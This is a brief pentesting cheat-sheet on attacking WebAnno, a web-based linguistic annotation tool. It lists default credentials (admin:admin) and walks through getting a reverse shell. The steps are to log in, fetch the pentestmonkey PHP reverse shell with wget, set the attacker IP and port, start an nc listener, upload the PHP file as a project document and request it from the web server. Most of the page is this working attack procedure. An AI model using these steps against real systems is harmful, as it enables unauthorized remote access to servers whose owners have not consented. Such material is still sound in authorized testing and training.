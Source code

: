 ```yaml
---
title: WebAnno Pentesting
description: WebAnno is a web-based annotation tool for a wide range of linguistic annotations. The server uses the port 8080.
tags:
    - Web
refs:
date: 2023-01-24
draft: false
---
```


## Default Credentials

```bash
admin:admin
```

<br />

## Reverse Shell

If the target system opens the website assoated with WebAnno service, we can execute reverse shell by uploading the payload and access to the webpage hosts the payload.  

### 1. Go to the Upload Screen in Dashboard

1. Login
2. Click “Projects”.
3. Select the project in left pane.
4. Click Documents tab.

### 2. Prepare Payload

WebAnno allows us to upload arbitrary file format, so we can upload PHP file for reverse shell.

```bash
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php -O shell.php
vim shell.php

# Edit $ip and $port in editor.
```

Then start listener in local machine.

```sh
nc -lvnp 4444
```

### 3. Upload the Payload

In WebAnno dashboard, upload the PHP file in the Documents page.

### 4. Access to the Payload File in Another Server

For instance, access to http://sub.example.com/path/to/shell.php, we can get a shell in the local terminal.
